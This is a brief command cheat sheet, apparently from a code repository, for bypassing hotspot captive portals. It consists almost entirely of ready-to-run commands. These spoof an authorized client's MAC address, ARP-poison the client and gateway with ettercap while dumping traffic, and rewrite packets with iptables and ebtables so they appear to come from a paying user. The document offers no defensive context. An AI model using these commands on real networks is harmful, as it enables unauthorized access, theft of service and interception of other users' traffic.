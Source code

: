 # Hotspot Captive Portal Bypass  
##	MAC-based Authorization  
		ifconfig wlan0 hw ether <authorized_MAC_address>  
##	IP-based Authorization  
		echo 1 > /proc/sys/net/ipv4/ip_forward;   
        ettercap -T -q -i wlan0 -w dump -M ARP /<IP_authorized_client>/ /<IP_gateway>/;  
        iptables -t nat -A OUTPUT -d ! <LAN> -j SNAT --to <IP_authorized_client>;  
        iptables -t mangle -A FORWARD -d <IP_authorized_client> -j TTL --ttl-inc 1;  
##	MAC+IP-based Authorization  
		modprobe bridge;  
        brctl addbr br0;  
        brctl addif br0 <interface>;  
        ebtables -t nat -A POSTROUTING -o <interface> -d <MAC_gateway> -j snat --to-source <MAC_authorized_client>;  

## Then apply method for IP-based Authorization bypass  
